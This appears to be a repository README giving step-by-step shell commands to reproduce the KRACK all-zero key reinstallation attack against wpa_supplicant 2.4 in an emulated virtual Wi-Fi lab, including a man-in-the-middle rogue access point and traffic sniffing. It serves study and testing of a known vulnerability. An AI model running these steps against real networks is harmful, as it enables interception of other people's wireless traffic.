 # Proof Of Concept (Emulation with mac80211_hwsim)

## Assumptions
In this tutorial we assume that the machine is connected to the Internet via 2 interfaces, that here we call `eth0` and `eth1`. Furthermore, we also assume that, after loading the module `man80211_hwsim` with `N` radios, their respective virtual interfaces will be named `wlan0, wlan1, ..., wlan(N-1)` by the system.

We tested the simulation in a **Virtual Machine running Kali Linux, with two Network Adapters between it and the Host Machine using NAT**. 

NOTE: We had hard times trying the attack on other Distros.

## Initialise the Network Emulation

First, make sure that both interfaces `eth0` and `eth1` are available.

```bash
sudo ./init_network.sh eth1
```

```bash
sudo systemctl stop dnsmasq.service # Only if it is running
```

## Create and connect Supplicant and Authenticator
### Start the Access Point

```bash
sudo ip netns exec hostapd ./enable_internet_forwarding.sh eth1 wlan0
sudo ip netns exec hostapd dnsmasq -d -C dnsmasq.conf
```
Open a new Terminal session in this folder and run:

```bash
sudo su
source init_env_sup_ap
ip netns exec hostapd ./hostapd-2.4 hostapd.conf
```

### Start the Supplicant
Open a new Terminal session in this folder and run:
```bash
sudo su
source init_env_sup_ap
ip netns exec supplicant ./wpa_supplicant-2.4 -D nl80211 -i wlan1 -c supplicant.conf
```

### Test connection
Open a new Terminal session in this folder and run:
```bash
sudo ip netns exec hostapd ping krackattacks.com
sudo ip netns exec supplicant dhcpcd -n wlan1
sudo ip netns exec supplicant ping krackattacks.com
```
```bash
sudo ip netns exec supplicant iw dev
```

## Add MitM and perform the Attack
### Initialise Krackattack environment
Open a new Terminal session in `../krackattack-all-zero-tk-key/krackattack` and run:
```bash
sudo su
rfkill unblock wifi
source ../../poc-emulation/init_env_mitm
../../poc-emulation/enable_internet_forwarding.sh eth0 wlan3
pyenv shell 2.7.18
```

### Obtain MitM position and Reinstall Key
In the same session, while root, execute:
```bash
python ./krack_all_zero_tk.py wlan2 wlan3 eth0 "simulnet" -t <victim_mac_addr>
```
### Test connection
In a new session run some tests:
```bash
ping krackattacks.com
sudo ip netns exec supplicant ping krackattacks.com
sudo ip netns exec supplicant iw dev
```
### Sniff the traffic
Open Wireskark and sniff traffic on interface `wlan3` (the Interface of the Rougue AP).

### Check with patched `wpa_supplicant`


## De-initialise the Network Emulation
```bash
sudo ./clear.sh eth1
```

